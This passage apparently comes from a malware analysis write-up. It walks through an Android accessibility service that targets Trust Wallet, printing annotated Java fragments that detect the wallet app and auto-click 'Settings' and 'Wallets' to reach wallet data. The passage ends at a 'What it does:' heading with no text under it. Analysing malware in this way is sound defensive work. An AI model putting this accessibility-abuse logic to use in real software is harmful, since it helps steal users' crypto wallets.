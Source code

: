 **Purpose:** Invoked **for every UI event** on the device. The malware uses it to detect when Trust Wallet is open and then automatically navigates the app to steal wallet data.

---

## 1: Target Detection

```java
if (event.getPackageName().equals("com.wallet.crypto.trustapp")) {
    AccessibilityNodeInfo nodeInfo = event.getSource();
    if (nodeInfo != null) {
        // Malware logic starts here
    }
}

```

**What it does:**

- **Monitors** all app activity.
- **Activates only** for Trust Wallet (`com.wallet.crypto.trustapp`).
- Obtains **UI tree access** via `nodeInfo`, enabling full interaction with the wallet’s interface.

---

## 2: Navigation Logic (Activity-by-Activity)

### 2a. `StartActivity` - Entry Point

```java
if (event.getClassName().toString()
        .equals("com.wallet.crypto.trustapp.ui.start.activity.StartActivity")) {
    for (AccessibilityNodeInfo n : nodeInfo.findAccessibilityNodeInfosByText("Settings")) { // Looks for the "Settings" node on the StartActivity of TrustWallet
        if (n.isClickable()) { // Check's if the node is clickable
            n.performAction(16);  // Click "Settings"
            nodeInfo.refresh();
            nodeInfo.refresh();
            nodeInfo.refresh();
            nodeInfo.findAccessibilityNodeInfosByText("Wallets") // Looks for the "Wallets" node
                    .get(0).getParent().performAction(16); 
            return;
        }
    }
    return;
}

// performAction(16) reference: https://developer.android.com/reference/android/view/accessibility/AccessibilityNodeInfo#ACTION_CLICK
```

**What it does:**
